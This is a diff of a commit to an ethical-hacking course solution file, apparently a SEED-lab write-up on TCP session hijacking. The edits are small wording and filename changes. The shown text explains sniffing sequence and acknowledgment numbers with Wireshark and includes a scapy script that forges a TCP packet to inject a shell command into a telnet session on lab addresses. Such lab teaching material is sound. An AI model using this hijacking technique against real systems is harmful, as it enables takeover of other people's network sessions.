

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, the part around one of its changes. Rendered like a GitHub page.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -192,7 +192,7 @@ root@472341f5fb4b:/#
 
 ## Manual
 
-To hijack an existing connection we first sniff with Wireshark the needed informations (ports, flags, SEQ and ACK numbers).
+To hijack an existing connection we first sniff with Wireshark the informations needed (ports, flags, SEQ and ACK numbers).
 
 First, we want to get the **Sequence Number**: we look for the last packet sent from the client (10.9.0.6) to the server (10.9.0.5) with flags `PSH/ACK` and get both the SEQ number and the size of the payload.
 
@@ -202,7 +202,7 @@ Then we need to find the **Acknowledgment Number**: we look for the last packet
  #!/usr/bin/env python3
 from scapy.all import *
 
-data = "echo nano > /home/seed/prova.txt \r\n"
+data = "echo nano > /home/seed/hacked.txt \r\n"
 ip = IP(src="10.9.0.6", dst="10.9.0.5")
 tcp = TCP(sport=58264, dport=23, flags="A", seq=757678758, ack=2218560972)
 
@@ -214,7 +214,7 @@ send(pkt,verbose=0)
 With the provided code and the information we retrieved, we tried to hijack the active telnet session from the `seed-attacker` container.
 
 ```bash
-root@seed-attacker:/volumes# python3 hijack_manual_attack.py
+seed@VM:~/.../volumes$ python3 session_hijacking.py
 version    : BitField  (4 bits)                  = 4               (4)
 ihl        : BitField  (4 bits)                  = None            (None)
 tos        : XByteField                          = 0               (0)
````
Also changed, not shown: other parts of 02 - TCPSpoofing/solution.md (+49 -0 lines).
